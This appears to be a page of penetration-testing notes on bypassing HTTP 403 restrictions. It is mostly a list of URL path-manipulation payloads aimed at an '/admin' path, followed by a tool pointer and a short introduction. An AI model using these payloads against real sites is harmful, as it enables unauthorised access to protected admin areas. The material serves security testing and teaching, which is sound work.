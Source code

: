 ```
url.com//;//admin
url.com//;//admin/
url.com/admin/./
url.com/%2e/admin
url.com/%2e/admin/
url.com/%20/admin/%20
url.com/%20/admin/%20/
url.com/admin/..;/
url.com/admin.json
url.com/admin/.json
url.com/admin..;/
url.com/admin;/
url.com/admin%00
url.com/admin.css
url.com/admin.html
url.com/admin?id=1
url.com/admin~
url.com/admin/~
url.com/admin/°/
url.com/admin/&
url.com/admin/-
url.com/admin\/\/
url.com/admin/..%3B/
url.com/admin/;%2f..%2f..%2f
url.com/ADMIN
url.com/ADMIN/
url.com/admin/..\;/
url.com/*/admin
url.com/*/admin/
url.com/ADM+IN
url.com/ADM+IN/
```




# Tooling

(update with wikinotes...)

 As far as automated tooling goes, https://github.com/devploit/nomore403 has the most coverage in terms of the above, plus other methods (Headers ++)




# Explanations

## Introduction to 403 Bypasses

A 403 Forbidden response indicates that the server understands the request but refuses to authorize it—often due to access control rules. However, misconfigurations, flawed logic, or unexpected parsing in web servers or applications can sometimes be exploited to bypass these restrictions. This first page covers the most common and foundational URL manipulation approaches. These should be your starting point when you encounter a 403 response.
